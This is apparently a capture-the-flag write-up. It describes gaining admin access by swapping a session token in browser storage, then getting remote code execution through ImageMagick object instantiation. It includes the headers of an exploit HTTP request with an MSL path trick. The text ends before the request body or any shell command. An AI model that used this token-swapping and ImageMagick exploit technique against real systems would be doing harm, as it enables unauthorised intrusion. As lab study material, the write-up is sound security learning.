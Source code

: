 # Accessing /admin

Used browser storage to change the token to the one granted above. Logged in as user greg who is an administrator. Now able to access /admin

![1d93da12b18034a47174106e264c8227.png](/assets/img/1d93da12b18034a47174106e264c8227.png)

![be3ecfeba84871364435133918176277.png](/assets/img/be3ecfeba84871364435133918176277.png)

# RCE - Imagek

Resource used: https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/

Using the material in the above article it was possible to get a reverse shell. Some adjustments needed to be made as shown below.

#### Payload
```
POST /api/v2/admin/image/modify?effect=none&path=vid:msl:/tmp/php* HTTP/1.1
Host: 10.129.157.82
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.157.82/admin
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=ABC;
X-XSRF-TOKEN: eyJpdiI6IjNLRElDME9SZTRWNGMySktsaUp1N0E9PSIsInZhbHVlIjoid1JNNEsyR3U1QW8rNkpqN1JabkVpc1hQVmJGVDY1cGxtUG1zMUZDdVV5SFRJUGhKak5mSGxYZlJHbHlNUmZLcmo1YnlIZjEyYUFZSlR2K2V5a3BIMEl2TndaRWZQL0VJdWJtUml0YmxaUXZVTGI1YSt3TlZvUGw0NW9ObWtEK3ciLCJtYWMiOiI4NzFmYWJjZjZkYzU4MGQxMmUwOTQ4MTI4N2E0MDg5N2M3YWE3NDc1NmRhMzgzZGRlYTI1ZjU5MTYxYmNmZTgxIiwidGFnIjoiIn0=
Content-Length: 285
Connection: close
```